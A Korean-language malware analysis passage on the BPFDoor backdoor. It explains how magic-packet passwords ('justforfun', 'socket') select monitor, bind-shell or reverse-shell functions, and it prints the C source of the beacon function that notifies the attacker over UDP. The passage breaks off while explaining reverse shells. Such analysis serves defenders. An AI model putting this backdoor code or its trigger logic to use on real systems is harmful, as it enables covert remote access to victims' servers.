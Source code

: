 `hash`에는 “justforfun”, `hash2`에는 “socket”이 저장되어 있다  
이 비밀번호는 변종에 따라 다르다  

매직 패킷에 담겨온 패스워드가 `hash`와 일치할 경우 `logon()`은 0을 반환하여 `try_link()`와 `shell()` 함수가 실행된다  
`hash2`와 일치할 경우 1을 반환하여 `getshell()` 함수가 실행된다  

그 외 다른 비밀번호일 경우 2가 반환되어 `mon()` 함수가 실행된다  

`mon()` 함수는 모니터 함수, `getshell()` 함수는 바인드 쉘 함수 그리고 `shell()` 함수는 리버스 쉘 함수를 실행한다  
<br>

---

## 쉘

### 모니터 함수

```c
int mon(in_addr_t ip, unsigned short port)
{
        struct sockaddr_in remote;
        int      sock;
        int      s_len;
 
        bzero(&remote, sizeof(remote));
        if ((sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP)) < -1) {
                return -1;
        }
        remote.sin_family = AF_INET;
        remote.sin_port   = port;
        remote.sin_addr.s_addr = ip;
 
        if ((s_len = sendto(sock, "1", 1, 0, (struct sockaddr *)&remote, sizeof(struct sockaddr))) < 0) {
                close(sock);
                return -1;
        }
        close(sock);
        return s_len;
}
```

BPFDoor가 공격 대상 서버에서 동작하고 있는지 확인하기 위한 함수로 공격자에게 UDP 프로토콜로 1을 전송한다  
<br>

---

### 리버스 쉘 (Reverse Shell)

리버스 쉘은 공격자가 공격 대상 서버로부터 역으로 접속 받아 쉘을 획득하는 공격 기법이다  

공격자는 특정 포트를 열어놓고 대기하고, 피해자로 하여금 명령어를 실행시켜 피해자 시스템이 공격자의 포트로 연결되도록 한다  
이후 소켓의 표준 입출력을 묶으면 공격자는 피해자 시스템의 쉘을 직접 조작 가능하다  

